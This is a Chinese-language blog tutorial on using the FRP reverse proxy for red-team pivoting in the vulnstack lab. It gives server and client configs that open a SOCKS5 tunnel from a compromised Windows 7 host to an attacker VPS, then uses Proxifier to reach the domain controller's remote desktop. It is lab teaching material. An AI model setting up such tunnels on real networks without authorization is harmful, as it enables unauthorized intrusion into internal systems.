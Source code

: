 ```yaml
---
title: "代理及转发之FRP"
categories: ["安全技术", "工具分享"]
tags: ["内网代理", "内网穿透"]
draft: false
slug: "567"
date: "2020-12-27 21:27:00"
---
```


# 介绍及环境

`frp`是一个高性能的反向代理应用，可以使目标对外开放端口，支持

- tcp
- http
- https

等协议类型，并且`web`服务支持根据域名进行路由转发，从而在红队行动时实现内网穿透

`frp`作为反向代理工具胜在稳定，但是其依赖配置文件，溯源容易

本篇文章在《ATT&CK 实战 - 红日安全 vulnstack (一)》文章使用到的环境基础上实现

网络配置示意图如下所示：

![][1]

- 已知 win7 作为边界机，已突破拿到 shell

- 域控主机已开启允许远程访问

这里已经提前上线`cs`，其实`cs`可以直接一键开启`socks`隧道但是不在本文范围之内

通过`cs`查看目标主机`win7`的`ip`有两个内网网段

![][2]

![][3]

# FRP 代理进入内网

首先需要明确代理流程

- 需要是攻击机笔记本的程序能够使用代理进行访问该域环境内网

首先从[GitHub][4]下载对应版本的`FRP`代理程序

打开可以看到`FRP`针对每种操作系统都有对应版本的程序：

![][5]

以`windows64`版本为例，包含文件有如下：

- systemd
- frpc.exe
- frpc.ini
- frpc_full.ini
- frps.exe
- frps.ini
- frps_full.ini
- LICENSE

可以看出同一操作系统，官方默认提供`server`端和`cilent`端

在攻击机，也就是拥有公网`ip`的`vps`先配置`frps.ini`

默认配置文件是这样的：

```
[common]
server_addr = 127.0.0.1
server_port = 7000

[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 22
remote_port = 6000
```

此处暂时先以最基础的配置介绍：

```
[common]
bind_port = 7000
token = 145678
```

其实最基础的只需前两行，但是建议习惯加上`token`哈，然后开启服务器：

```
frps -c frpc.ini
```

![][6]

此时目标机需要配置连接我们的`vps`之外，还需配置`socks5`隧道才能让我们进入目标环境的内网，最简单的配置应该如下：

```
[common]
server_addr = x.x.x.x
server_port = 7000
token = 145678

[socks1]
type = tcp
remote_port = 6666
plugin = socks5
plugin_user = admin
plugin_passwd = passwd
```

启动客户端`frp`：

![][7]

此时`vps`收到连接：

![][8]

这时候我们笔记本攻击机就可以挂着`socks5:VPS-IP:6666`来访问边界区可以访问的目标了

> 结束 frp 时可以使用 ps -aux|grep frp 命令列出 frp 进程信息，然后再用 kill 命令结束掉 frp 进程

本地访问可以用`Proxifier`，将需要使用的工具设置为走该代理

## proxifier 进行代理

添加我们的服务器如下：

![][9]

将远程桌面工具`mstsc.exe`添加规则：

![][10]

此时在我们本地使用远程工具`mstsc`直接连接内网的域控主机`192.168.52.138`：

![][11]

已经可以成功访问到目标主机内网的域控远程桌面

在连接的时候可以看到`proxifier`打印出了日志，显示通过代理开始连接

要使用其他工具对内网进行扫描也是一样的，只需要在`proxifier`中将使用到的程序配置规则即可

# frp 优化

**敬请期待更新**

参考文章：

- [FRP 内网穿透实践][12]
- [内网渗透 | 常用的内网穿透工具使用][13]
- [浅析内网渗透代理][14]
- [某大学渗透测试实战靶场报告-Part1][15]
- [实战中内网穿透的打法][16]

[1]: https://img.soapffz.com/archives_img/2020/12/27/archives_20201227_204917.png
[2]: https://img.soapffz.com/archives_img/2020/12/27/archives_20201227_205935.png
[3]: https://img.soapffz.com/archives_img/2020/12/27/archives_20201227_210044.png
[4]: https://github.com/fatedier/frp/releases/latest
[5]: https://img.soapffz.com/archives_img/2020/12/27/archives_20201227_205745.png
[6]: https://img.soapffz.com/archives_img/2020/12/27/archives_20201227_210345.png
[7]: https://img.soapffz.com/archives_img/2020/12/27/archives_20201227_210513.png
[8]: https://img.soapffz.com/archives_img/2020/12/27/archives_20201227_210539.png
[9]: https://img.soapffz.com/archives_img/2020/12/27/archives_20201227_210703.png
[10]: https://img.soapffz.com/archives_img/2020/12/27/archives_20201227_210729.png
[11]: https://img.soapffz.com/archives_img/2020/12/27/archives_20201227_210756.png
[12]: https://mp.weixin.qq.com/s/u-K5Ge_Ql0_q2NxcwhnD4A
[13]: https://mp.weixin.qq.com/s/04TvD-hBDG5MhSDK3TWvtg
[14]: https://mp.weixin.qq.com/s/BS7lUCgND2_N_J3fcav3Zg
[15]: http://mp.weixin.qq.com/s?__biz=Mzg4MzA4Nzg4Ng==&mid=2247484218&idx=1&sn=dd4a356ab5e6594fe457c5f80ca72537&chksm=cf4d8c5bf83a054dd0900fa0173fb01a3f91204bc1a5a12772aed72bec0539f0b813081301a4&mpshare=1&scene=1&srcid=&sharer_sharetime=1579226296742&sharer_shareid=e9d935b08e3994ebe99d45916b3e1a98#rd
[16]: http://mp.weixin.qq.com/s?__biz=MzUyNTk1NDQ3Ng==&mid=2247484897&idx=1&sn=1e71969ca83acf4e15321e2bf7dc25ea&chksm=fa177922cd60f0347d88b39c63f88e37a3b79e2f5d0bd238a823a867c3d30a3b38668cfc711e&mpshare=1&scene=1&srcid=&sharer_sharetime=1578296540835&sharer_shareid=e9d935b08e3994ebe99d45916b3e1a98#rd
